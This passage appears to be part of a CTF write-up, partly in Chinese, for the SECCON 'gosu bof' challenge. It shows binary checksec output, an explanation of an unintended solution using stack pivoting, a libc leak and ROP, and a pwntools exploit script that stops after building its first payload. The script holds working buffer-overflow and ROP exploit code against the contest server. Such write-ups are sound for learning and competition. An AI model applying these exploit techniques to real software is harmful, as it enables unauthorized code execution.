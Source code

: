 ```python
info(f"libc: {hex(libc)}")

for i in overwrite_queue:
    r.sendline(str(i + libc))

r.interactive()
```



### gosu bof

```
// file
./chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b62329e4366a9b090c523984a3fd6ffc938fe7dc, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/seccon/gosu_bof/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



非預期解：

將 stack pivoting 到 bss 上，並且呼叫 `gets()` 讓 stack 上殘留 libc，之後透過 gadget `add dword ptr [rbp - 0x3d], ebx`，讓 libc 加上 offset 求得 system 位址，之後用同樣的方式做 ROP 即可，exploit 入下：

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']



if len(sys.argv) > 1:
    r = remote('hiyoko.quals.seccon.jp', 9002)
else:
    r = process('./chall', env={"LD_PRELOAD": "./libc-2.31.so"})

gets_plt = 0x401044
bss = 0x404800

pop_rdi_ret = 0x4011c3
leave_ret = 0x401158
csu_gadget = 0x4011ba
add_dptr_ebx_ret = 0x40111c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
pop_rbp_ret = 0x40111d
ret = 0x40101a

payload1 = b'A'*0x80 + p64(bss - 8)
payload1 += flat(
    pop_rdi_ret, bss,
    gets_plt,
    leave_ret
)

```